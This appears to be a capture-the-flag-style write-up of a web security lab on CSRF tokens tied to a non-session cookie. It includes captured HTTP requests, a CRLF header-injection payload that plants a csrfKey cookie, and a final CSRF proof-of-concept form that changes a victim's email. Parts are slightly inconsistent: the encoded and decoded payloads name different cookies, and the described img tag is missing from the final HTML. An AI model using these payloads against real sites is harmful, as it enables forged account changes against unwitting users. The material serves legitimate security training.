









# CSRF where token is tied to non-session cookie
##Lab Description :


##Overview :
CSRF token is tied to a non-session cookie -

In a variation on the preceding vulnerability, some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions. This can easily occur when an application employs two different frameworks, one for session handling and one for CSRF protection, which are not integrated together:

```html
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```

This situation is harder to exploit but is still vulnerable. If the web site contains any behavior that allows an attacker to set a cookie in a victim's browser, then an attack is possible. The attacker can log in to the application using their own account, obtain a valid token and associated cookie, leverage the cookie-setting behavior to place their cookie into the victim's browser, and feed their token to the victim in their CSRF attack.

The cookie-setting behavior does not even need to exist within the same web application as the CSRF vulnerability. Any other application within the same overall DNS domain can potentially be leveraged to set cookies in the application that is being targeted, if the cookie that is controlled has suitable scope. For example, a cookie-setting function on staging.demo.normal-website.com could be leveraged to place a cookie that is submitted to secure.normal-website.com.

Some times csrf token is tied to a cookie but this cookie is not related to the session of the user. This happens because the application uses 2 different frameworks one for session handling and one for csrf protection and both aren't integrated together.

## Solution :
If we update the email of wiener, browser sends a request like this.
```html
POST /my-account/change-email HTTP/2
Host: 0a4800d4041e203a80c1808900a400d7.web-security-academy.net
Cookie: session=ENaW8l1JXay1VOycCiogD09ikVA4OUQL; csrfKey=o1jSFgrHJBIBK6IZt0fvXXuO14fGKSfc
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0a4800d4041e203a80c1808900a400d7.web-security-academy.net
Referer: https://0a4800d4041e203a80c1808900a400d7.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=user%40user.net&csrf=ePSGVOTHfJGqkk9DM1m6QhMVn96wdaiu
```
We see that there is a csrf token parameter in the body of the request & a csrfkey cookie in the header. Both has two different values.

#### Case 1 - Change session cookie value -
If we change the cookie value, then we get logged out.





If we log in again, we get the same csrf token & also the same csrfkey as before but different session cookie.

```html
POST /my-account/change-email HTTP/2
Host: 0a8a00fc04a8b93380af175700710093.web-security-academy.net
Cookie: session=4yvqWCiq0KAsmc5SWXhWNaimEGeFT3ye; csrfKey=yHUGj3LY69Q7aCPMTzNCEshBUBSURTfc
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0a8a00fc04a8b93380af175700710093.web-security-academy.net
Referer: https://0a8a00fc04a8b93380af175700710093.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

email=test%40test.com&csrf=I3gIUYvX6OQRl2TypteG8TfEkaCqbYgD
```
From this we can understand that system providing the CSRF protection does not integrate into the session system, but creates its own type of session that is not in sync.

Check if csrf token is tied to csrf cookie -
Give any invalid csrf token
When we give random csrf token , we get a response stating that the token is invalid. Meaning that the csrfkey and csrf token are tied together.

If the csrf token value is not matched with its pair ie(csrfkey) , then the application rejects the request.



Check if we can give any valid token (another user's token)
Log in to carlos's account in incognito, & get his csrf token & csrfkey value.

csrf token - ``A3SRAhW10ulYAujS4LqoGMSAbVtJR1WY`` csrfkey - ``DeXLkdkNhCEpCDz5WHWqsRmLrAI6X3wz``

Let's now try to give carlos's csrf token in place of wiener's.



This confirms that both csrf token and cookie are strictly tied together

Submit both the csrf token and csrf key of another user
If we submit both the csrfkey and csrf token of carlos(another user), then the request is accepted & the email ID is changed.



CONCLUSION - CSRF token and CSRFKEY cookie are tied together but both are not tied to session cookie !

This happens when application uses 2 different frameworks , 1 for session handling and 1 for csrf token.

Inject csrfkey cookie value by HTTP header injection
We need to find any functionality that takes user input. IN this case, we have a search functionality.

If we search for any term , we can see from the response that the search we used is getting added as a cookie - Set-Cookie: LastSearchTerm=hello


So with this we can try to inject the csrfkey value.

Use this payload query in the search parameter of the request - ``/?search=test%0d%0aSet-Cookie:%20csrf=anytoken%3b%20SameSite=None`` which decodes to ``/?search=test Set-Cookie: csrfkey=<carlos csrfkey>; SameSite=None``



rom the response we can confirm that we can inject the csrfkey value by HTTP header injection.

Send the above request to POC generator.

Note that we have only changed the csrf token value to wiener's token. The csrfkey value is still the same(carlos's). It has to be injected into victim's session. For this we can use a  tag, where we load the url along with HTTP header injection payload to inject the csrfkey value as wiener's csrf key . Since there is no image in that url , it will trigger an error. On error it will submit the form.
```html

```
### Final payload **
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a4800d4041e203a80c1808900a400d7.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="A3SRAhW10ulYAujS4LqoGMSAbVtJR1WY" />
      <input type="submit" value="Submit request" />
    </form>
      
  </body>
</html>
```
Deliver the exploit to victim to solve the lab.



#### Visit The Next Page For The Next Level :)
